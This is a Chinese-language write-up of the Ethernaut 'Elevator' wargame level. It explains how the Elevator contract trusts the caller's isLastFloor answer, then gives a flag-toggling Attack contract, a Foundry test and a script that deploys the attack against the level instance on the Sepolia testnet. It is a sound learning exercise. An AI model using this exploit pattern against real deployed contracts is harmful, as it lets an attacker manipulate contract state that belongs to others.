


# Foundry 通关 Ethernaut（10）— **Elevator**

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

到达最高层（使 top 为 true）

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **Building ：**一个 Building 接口，需要实现一个 isLastFloor 的函数，输入 uint256 的楼层数字，返回是否是最高层的布尔值

2. **状态变量**:  一个布尔值 top，一个 uint256 的 floor

3. goTo:

   a. 根据调用者地址实例化一个 building 合约 （只有构造合约调用 goTo 函数才能使 msg.sender 为合约地址）

   b. 传入输入的 _floor 楼层值去调用 building 合约的 isLastFloor 函数，如果返回为 false，!false 为 true，则通过 `if` 语句

   c. 更新 floor 值，更新 top 值为 `building.isLastFloor(floor)` 的返回值

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

## 思路

这里我们需要到达最高层，也就是使 top 为 true。大致思路如下

1. top 没有初始化，所以他的默认值为 false。
2. 在合约中，只有 goTo 函数的 `if` 语句中有 top 的更新逻辑，top 的值是根据函数调用的返回值来设置的。
3. 通常情况下，如果调用函数返回值固定，那么无论返回 true 或者 false 都不能同时满足在**通过 `if` 条件判断**的情况下，**更新 top 值为 true**
4. 因此，函数返回值不能是规定的，在两次调用中，去返回不同的 bool 值，比如第一次调用后给一个 bool 标识，或者计数器

### 踩坑

一开始错误的把攻击合约中的 flag 标识设置在了 isLastFloor 函数里，导致 goTo 两次调用 isLastFloor 初始 flag 都是 false，失去标识作用。

## foundry 复现

### 测试

1. 攻击合约

   ```solidity
   contract Attack{
       Elevator public elevator;
       // 标识调用情况，初次调用为 false
       bool flag;
   
       constructor(address _address){
           elevator = Elevator(_address);
       }
   
       function isLastFloor(uint256 floor) external returns (bool){
           
           if(!flag){
               flag = true;
               return false;
           }else{
               flag = false;
               return true;
           }
       }
   
       function attack() public{
           elevator.goTo(1);
       }
   }
   ```

2. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Test, console} from "forge-std/Test.sol";
   import {Elevator,Attack} from "../src/Elevator.sol";
   
   contract ElevatorTest is Test {
       Elevator public elevator;
       Attack public attack;
   
       function setUp() public {
           elevator = new Elevator();
           attack = new Attack(address(elevator));
       }
   
       function test() public {
           console.log("before",elevator.top());
           attack.attack();
           console.log("after",elevator.top());
       }
   }
   ```

3. 终端输入

   ```solidity
   forge test --match-path test/Elevator.t.sol -vvvv
   ```

   

   我们可以看到，攻击合约攻击后，top 状态改变

### 链上交互

1. 交互合约

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Script, console} from "forge-std/Script.sol";
   import {Elevator, Attack} from "../src/Elevator.sol";
   
   contract ElevatorScript is Script {
       Elevator public elevator;
       Attack public attack;
   
       function setUp() public {
           elevator = Elevator("关卡实例合约");
       }
       function run() public {
           vm.startBroadcast();
           attack = new Attack("关卡实例合约");
           console.log("before", elevator.top());
           attack.attack();
           console.log("after", elevator.top());
           vm.stopBroadcast();
       }
   }
   ```

2. 终端部署

   ```bash
   forge script script/Elevator.s.sol --rpc-url $Sepolia_RPC_URL --broadcast --private-key $PRIVATE_KEY 
   ```

   

   成功更新


